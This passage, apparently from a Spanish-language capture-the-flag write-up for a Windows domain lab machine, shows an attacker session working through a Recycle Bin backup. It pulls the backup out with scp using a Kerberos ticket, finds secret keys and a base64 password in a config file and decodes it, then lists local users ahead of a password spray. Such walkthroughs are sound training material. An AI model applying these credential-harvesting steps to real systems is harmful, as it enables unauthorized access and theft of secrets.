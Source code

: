 Pero en realidad, 2 de ellos, son _básicamente el mismo_: Cuando se __elimina un archivo__ y es mandado al recycle bin, se renombra __con un prefijo $R/$I__ El archivo R es en sí, el archivo borrado, mientras que el archivo I, es la información de ese archivo; Si queremos saber más detalles del archivo borrado, sólo tenemos que ver el contenido del `$I`:

```js
PS C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103> type '.\$IE2XMEG.7z'
<C:\Users\f.frizzle\AppData\Local\Temp\wapt-backup-sunday.7z
```

No hay necesidad de restaurar el archivo, pero sí de moverlo a nuestra máquina para examinarlo más a fondo, así que utilizamos `scp` para copiar el archivo remoto a nuestra máquina:

```js
KRB5CCNAME=f.frizzle.ccache scp f.frizzle@frizzdc.frizz.htb:C:/\$RECYCLE.BIN/S-1-5-21-2386970044-1145388522-2932701813-1103/E2XMEG.7z ./E2XMEG.7z
```

Después de descomprimir el archivo; podemos buscar en configuraciones por si existe alguna otra contraseña... donde justo en `/wapt/conf/waptserver.ini` encontramos algo:

```bash
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

Donde notaremos el `=` lo que potencialmente nos dice que es un base64:

```bash
❯ echo "IXN1QmNpZ0BNZWhUZWQhUgo=" | base64 -d
!suBcig@MehTed!R
```

Una vez con credenciales, debemos averiguar de quién es la clave; por lo que tendremos que enumerar primero a los usuarios locales y hacer un password spray:

```java
PS C:\Users\f.frizzle> NET USERS

User accounts for \\

-------------------------------------------------------------------------------
a.perlstein              Administrator            c.ramon
c.sandiego               d.hudson                 f.frizzle
g.frizzle                Guest                    h.arm
J.perlstein              k.franklin               krbtgt
l.awesome                m.ramon                  M.SchoolBus
p.terese                 r.tennelli               t.wright
v.frizzle                w.li                     w.Webservice
```
